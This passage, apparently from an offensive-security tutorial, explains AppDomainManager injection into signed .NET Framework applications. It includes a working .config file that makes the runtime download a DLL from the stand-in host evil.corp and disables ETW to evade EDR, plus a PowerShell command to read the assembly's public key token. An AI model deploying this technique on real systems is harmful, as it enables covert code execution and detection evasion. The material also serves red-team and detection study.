 The two main values that we’re most interested in are the `MyAppDomain` extended class and the C# filename (e.g. `AppDomInject.cs`) as those values will be respectively used into the `appDomainManagerType` and `appDomainManagerAssembly` tags/variables in our trigger methods.<br>
Talking about trigger methods, to elicit our target .NET Framework application to load our arbitrary managed DLL we can abuse two of those:
- Using a `.config` XLM file
- Setting up some enviromental variables

The first method, as long we have write privileges over the file or folder, allows us to (over)write a `.config` file placed in the same folder on which the application resides. For example if we want to target an application called `DemoApp.exe` located in `C:\Temp` we should write or modify a `DemoApp.exe.config` file placed in the same application folder.

{: .box-note}
A good and huge list of Microsoft signed applications, recently published by MrUn1k0d3r, can be found [here](https://github.com/Mr-Un1k0d3r/.NetConfigLoader/blob/main/signed.txt) and used for this purpose.

Even though the `.config` file could contain [several informations](https://learn.microsoft.com/en-us/dotnet/framework/configure-apps/file-schema/runtime/) we’re going to trigger our target application to download our DLL from an URL (which will be placed by the runtime on a .NET cache folder) and to disable a bunch of ETW events to better hide from an EDR analyzing our target application process.  To do so we have to construct the following XML file: 

```xml
<configuration>
   <runtime>
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
         <dependentAssembly>
            <assemblyIdentity name="test" publicKeyToken="d34db33fd34db33f" culture="neutral" />
            <codeBase version="1.0.0.0" href="https://evil.corp/AppDomInject.dll"/>
         </dependentAssembly>
      </assemblyBinding>
      <etwEnable enabled="false" />
      <appDomainManagerAssembly value="AppDomInject, Version=1.0.0.0, Culture=neutral, PublicKeyToken=d34db33fd34db33f" />
      <appDomainManagerType value="MyAppDomain" />
   </runtime>
</configuration>
```

Keep in mind that while using the [codeBase](https://learn.microsoft.com/en-us/dotnet/framework/deployment/how-the-runtime-locates-assemblies#locating-the-assembly-through-codebases) element we should [sign](https://learn.microsoft.com/en-us/dotnet/standard/assembly/sign-strong-name) our DLL to allows the runtime to reference assemblies outside the application’s root directory. 
Moreover, to extract the `publicKeyToken` value we should run the following PowerShell command once we have compiled the `AppDomInject` DLL: 

`$path = Join-Path (Get-Item .).Fullname 'AppDomInject.dll'; ([system.reflection.assembly]::loadfile($path)).FullName`

In case we don’t want to (over)write a `.config` file we can use the second trigger method to load our DLL placed in the root directory or any subdirectories having the same assembly name (`AppDomInject`) or provided culture information, as specified [here](https://learn.microsoft.com/en-us/dotnet/framework/deployment/how-the-runtime-locates-assemblies#probing-the-application-base-and-culture-directories), by setting the following three environmental variables:
